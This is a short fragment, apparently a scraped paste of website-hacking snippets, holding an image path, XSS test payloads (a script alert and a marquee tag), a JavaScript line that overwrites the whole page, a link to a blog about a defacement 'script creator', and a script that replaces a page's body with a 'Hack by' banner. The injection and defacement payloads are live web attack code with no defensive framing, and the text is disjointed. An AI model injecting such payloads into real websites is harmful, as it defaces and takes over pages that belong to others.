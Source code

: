 <script>alert("test")</script>
<marquee>test</marquee>
document.documentElement.innerHTML=String.fromCharCode()
https://dark-people-team.blogspot.com/2019/08/script-jso-creator-written-by-mine7.html

<script>document.body.innerHTML = "<h1>Hack by *****</h1>"</script>
